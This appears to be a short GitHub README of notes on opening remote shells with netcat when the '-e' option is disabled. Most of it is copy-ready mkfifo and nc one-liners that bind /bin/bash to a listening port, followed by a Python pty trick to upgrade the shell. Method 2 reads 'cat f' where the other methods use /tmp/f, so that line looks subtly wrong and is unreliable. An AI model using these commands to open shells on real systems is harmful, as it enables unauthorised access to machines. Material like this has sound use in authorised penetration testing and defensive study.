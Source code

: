 # netcat_shells
Notes for utilizing netcat general use and for remote shells

OpenBSD derivities of nc/netcat (netcat-openbsd) have the '-e' option disabled for security purposes. This feature is enabled in netcat-traditional; however, there are other ways to achieve this with the OpenBSD version.
Below are other ways to execute remotely and options for upgrading the shell.

# Method 1
on Server:
mkfifo /tmp/f;
nc -l 1234 < /tmp/f | /bin/bash -i > /tmp/f 2>&1

On client:
nc 10.10.0.1 1234

# Method 2
On Server:
mkfifo /tmp/f;
cat f | /bin/bash -i 2>&1 | nc -l 1234 > /tmp/f

On client:
nc 10.10.0.1 1234

# Additional Methods
mkfifo /tmp/f ; nc -lk 1234 0< /tmp/f | /bin/bash 1> /tmp/f

#to show output on remote host
mkfifo /tmp/f ; nc -l 1234 < /tmp/f | /bin/bash -i 2>&1 | tee /tmp/f

# Getting a better Shell
If executing bash without the '-i' flag, typical shell features will be lost. Below are several ways to gain a better shell.

Python Method:<br>
#Once are connected to the remote host issue the following<br>
python -c 'import pty; pty.spawn("/bin/bash")'
